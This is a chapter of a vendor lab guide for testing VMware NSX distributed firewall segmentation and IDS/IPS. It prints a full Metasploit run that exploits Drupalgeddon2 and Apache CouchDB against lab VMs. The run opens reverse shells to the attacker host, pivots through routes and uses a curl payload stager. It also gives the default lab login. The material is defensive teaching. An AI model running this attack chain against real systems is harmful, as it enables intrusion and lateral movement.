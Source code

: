 
## 9. Segmentation
**Estimated Time to Complete: 30 minutes**

In this final exercise, we will leverage the **Distributed Firewall** in order to limit the attack surface. 
First, we will apply a **Macro-segmentation** policy which will isolate our **Production** environment and the applications deployed in it from the **Development** environment. 
Then, we will implement a **Micro-segmentation** policy, which will employ an **allow-list** to only allow the flows required for our applications to function and block everything else.

**Macro-Segmentation: Isolating the Production and Development enviornments**

The goal of this exercise is to completley isolate workloads deployed in **Production** from workloads deployed in **Development**. All nested workloads were previously tagged to identify which of these environments they were deployed in, and earlier in this lab, you created groups for **Production Applications** and **Development Applications** respecively. In the next few steps, you will create the appropriate firewall rules to achieve this, and then run through the **lateral movement** attack scenario again to see how lateral movement has now been limited to a particular environment.

***Create a Distributed Firewall Environment Category Policy***
1. In the NSX Manager UI, navigate to Security -->  Distributed Firewall
2. Click on the **Environments(0)** Category tab.
3. Click **ADD POLICY**
4. Click **New Policy** and change the name of the policy to **Environment Isolation**
5. Check the checkbox next to the **Environment Isolation** Policy
6. Click **ADD RULE** twice, and configure the cnew new rules as per below setps
7. Rule 1
    * Name: **Isolate Production-Development**
    * Source: **Production Applications** 
    * Destination: **Development Applications** 
    * Services: **ANY** 
    * Profiles: **NONE** 
    * Applied To: **Production Applications** , **Development Applications** 
    * Action: **Drop**
8. Rule 2
    * Name: **Isolate Development-Production**
    * Source: **Development Applications** 
    * Destination: **Production Applications**  
    * Services: **ANY** 
    * Profiles: **NONE** 
    * Applied To: **Production Applications** , **Development Applications** 
    * Action: **Drop**

![](assets/images/IDPS_POC_38.PNG)

9. Click **Publish** to publish these rules to the **Distributed Firewall**.

***Open a SSH/Console session to the External VM***
1.	If your computer has access to the IP address you've assigend to the **External VM** (10.114.209.151 in my example), open your ssh client and initiate a session to it. Login with the below credentials. 
    * Username **vmware**
    * Password **VMware1!**
2. **Alternatively**, if your computer does not have access to the **External VM** directly, you can access the VM console from the  physical environment vCenter Web-UI. 

***Run through the the lateral attack scenario (again)***

In order to reduce the time needed for this, you can run the **attack2** script from the **external VM** which will initiate the complete lateral attack scenario without needing any manual metasploit steps. If you prefer, you can also manually go though these steps (See the chapter on Lateral Movement Scenario)

1. If you have not previously used this script, you will need to modify it to reflect your environment. Type **sudo nano attack2.rc** and replace the **RHOST** and **LHOST** IP addresses accordingly to match with the IP addresses in your environment. 
    * **RHOST** on line 3 should be the IP address of the App1-WEB-TIER VM 
    * **SUBNET** on line 6 (route add) should be the Internal Network subnet 
    * **LHOST** on line 9 should be the IP address of the External VM (this local machine) 
    * **RHOST** on line 10 should be the IP address of the App1-APP-TIER VM 
    * **RHOST** on line 13 should be the IP address of the App2-APP-TIER VM
2. Type **CTRL-O** and confirm to save your changes, then **CTRL-X** to exit **Nano**.
3. Type **sudo ./attack2.sh** to run the attack scenario

> **Note**: This scripted attack does not upgrade shell sessions to meterpreter sessions nor does it interact with the sessions. To interact with the established sessions, but it will cause the same signatures to fire on the NSX IDS/IPS.

```console

vmware@ubuntu:~$ sudo ./attack2.sh
[sudo] password for vmware:
[*] Starting thE Metasploit Framework console...\

Call trans opt: received. 2-19-98 13:24:18 REC:Loc

     Trace program: running

           wake up, Neo...
        the matrix has you
      follow the white rabbit.

          knock, knock, Neo.

                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`

                             https://metasploit.com


       =[ metasploit v5.0.95-dev                          ]
+ -- --=[ 2038 exploits - 1103 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Search can apply complex filters such as search cve:2009 type:ex                                                                                                                     ploit, see all the filters with help search

[*] Processing attack2.rc for ERB directives.
resource (attack2.rc)> use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
resource (attack2.rc)> set RHOST 192.168.10.101
RHOST => 192.168.10.101
resource (attack2.rc)> set RPORT 8080
RPORT => 8080
resource (attack2.rc)> exploit -z
[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Sending stage (38288 bytes) to 192.168.10.101
[*] Meterpreter session 1 opened (10.114.209.151:4444 -> 192.168.10.101:36632) a                                                                                                                     t 2020-08-18 09:23:54 -0500
[*] Session 1 created in the background.
resource (attack2.rc)> route add 192.168.20.0/24 1
[*] Route added
resource (attack2.rc)> use exploit/linux/http/apache_couchdb_cmd_exec
[*] Using configured payload linux/x64/shell_reverse_tcp
resource (attack2.rc)> set LPORT 4445
LPORT => 4445
resource (attack2.rc)> set LHOST 10.114.209.151
LHOST => 10.114.209.151
resource (attack2.rc)> set RHOST 192.168.20.100
RHOST => 192.168.20.100
resource (attack2.rc)> exploit -z
[*] Started reverse TCP handler on 10.114.209.151:4445
[*] Generating curl command stager
[*] Using URL: http://0.0.0.0:8080/4u4h7sj6qJrKq
[*] Local IP: http://10.114.209.151:8080/4u4h7sj6qJrKq
[*] 192.168.20.100:5984 - The 1 time to exploit
[*] Client 10.114.209.148 (curl/7.38.0) requested /4u4h7sj6qJrKq
[*] Sending payload to 10.114.209.148 (curl/7.38.0)
[*] Command shell session 2 opened (10.114.209.151:4445 -> 10.114.209.148:20667)                                                                                                                      at 2020-08-18 09:24:20 -0500
[+] Deleted /tmp/zzdlnybu
[+] Deleted /tmp/ltvyozbf
[*] Server stopped.
[*] Session 2 created in the background.
resource (attack2.rc)> set LPORT 4446
LPORT => 4446
resource (attack2.rc)> set RHOST 192.168.20.101
RHOST => 192.168.20.101
resource (attack2.rc)> exploit -z
[*] Started reverse TCP handler on 10.114.209.151:4446
[-] Exploit aborted due to failure: unknown: Something went horribly wrong and w                                                                                                                     e couldn't continue to exploit.
[*] Exploit completed, but no session was created.
```

4. Type **sessions -l** to confirm that this time, although the script tried to exploit the **APP1-WEB-TIER** then laterally move to **APP1-APP-TIER** and then move once more to **APP2-APP-TIER** only 2 reverse shell sessions were established
    * One from the **APP1-WEB-TIER** VM
    * One from the **APP1-APP-TIER** VM 

> **Note**: The exploit of the **APP2-APP-TIER** VM failed, because the Distributed Firewall policy you just configured isolated the **APP2** workloads that are part of the **Development Applications** Group (Zone) from the **APP1** workloads which are part of the **Production Applications** Group (Zone).

```console
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                   Connection
  --  ----  ----                   -----------                   ----------
  1         meterpreter php/linux  www-data (33) @ 273e1700c5be  10.114.209.151:4444 -> 192.168.10.101:36632 (192.168.10.101)
  2         shell x64/linux                                      10.114.209.151:4445 -> 10.114.209.148:20667 (192.168.20.100)
```

***Confirm IDS/IPS Events show up in the NSX Manager UI***
1.	In the NSX Manager UI, navigate to Security --> East West Security --> Distributed IDS
4. Confirm 4 signatures have fired:
    * Signature for **DrupalGeddon2**, with **APP-1-WEB-TIER** as Affected VM
    * Signature for **Remote Code execution via a PHP script**, with **APP-1-WEB-TIER** as Affected VM
    * Signature for **Apache CouchDB Remote Code Execution**, with **APP-1-WEB-TIER** and  **APP-1-APP-TIER** as Affected VMs
    * Signature for **Apache CouchDB Remote Privilege Escalation**, with **APP-1-WEB-TIER** and  **APP-1-APP-TIER** as Affected VMs

> **Note**: Because the distributed firewall has isolated production from development workloads, we do not see  the exploit attempt of the **APP2-APP-TIER** VM.
    ![](assets/images/IDPS_POC_39.PNG)


---

[***Next Step: 10. Conclusion***](/docs/10-Conclusion)
